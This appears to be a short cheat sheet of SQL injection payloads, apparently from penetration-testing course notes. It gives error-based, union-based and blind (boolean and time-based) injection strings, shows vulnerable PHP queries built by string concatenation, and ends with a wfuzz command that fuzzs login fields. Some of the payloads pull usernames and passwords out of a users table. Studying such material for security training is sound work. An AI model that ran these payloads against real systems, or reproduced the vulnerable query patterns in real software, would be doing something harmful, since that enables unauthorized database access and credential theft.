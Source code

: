 ### Identification - Error Based Payloads

```
$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
```
offsec' OR 1=1
' or 1=1 in (select @@version) -- // union in mssql
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //

### Union Based Payloads

- The injected UNION query has to include the same number of columns as the original query.
- The data types need to be compatible between each column.
```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

- first count number of columns
' ORDER BY 1-- //
- Increasing the column value by one each time, we'll discover that the table has five columns, since ordering by column six returns an error.
%' UNION SELECT database(), user(), @@version, null, null -- //
' UNION SELECT null, null, database(), user(), @@version  -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' UNION SELECT null, username, password, description, null FROM users -- //

### Blind SQL Injection

- blind SQL injections describe scenarios in which database responses are never returned and behavior is inferred using either boolean- or time-based logic.
- Test for boolean based SQLi
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
- Time based SQLi
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //

Wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d “username=admin&password=FUZZ” -u <TARGET_URL>
